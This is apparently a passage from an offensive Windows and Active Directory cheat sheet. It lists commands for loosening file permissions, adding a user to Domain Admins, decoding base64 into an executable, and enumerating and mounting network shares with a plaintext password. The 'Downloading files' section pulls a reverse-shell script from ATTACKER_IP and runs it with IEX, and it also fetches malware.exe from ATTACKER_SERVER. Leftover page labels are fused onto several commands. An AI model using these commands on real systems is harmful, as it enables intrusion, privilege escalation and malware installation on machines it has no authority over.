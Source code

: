 **Changing Permissions of a file**
----------------------------------

```

icacls text.txt /grant Everyone:F
```


**Downloading files**
---------------------

```

IEX (New-Object System.Net.WebClient).DownloadString("http://ATTACKER_IP/rev.ps1")(New-Object System.Net.WebClient).DownloadFile("http://ATTACKER_SERVER/malware.exe", "C:\Windows\Temp\malware.exe")  Invoke-WebRequest "http://ATTACKER_SERVER/malware.exe" -OutFile "C:\Windows\Temp\malware.exe"Code language: JavaScript (javascript)
```


**Adding user to Domain admins**
--------------------------------

```

Add-DomainGroupMember -Identity 'Domain Admins' -Members morph3 -VerboseCode language: JavaScript (javascript)
```


**Base64 Decode**
-----------------

```

certutil -decode foo.b64 foo.exeCode language: CSS (css)
```


**Network sharing**
-------------------

```


net share
wmic share get /format:list

net view
net view \\dc.ecorp.foo /all
wmic /node: dc.ecorp.foo share get

net use Z: \\127.0.0.1\C$ /user:user password123Code language: PHP (php)
```


**Port Forwarding**
-------------------
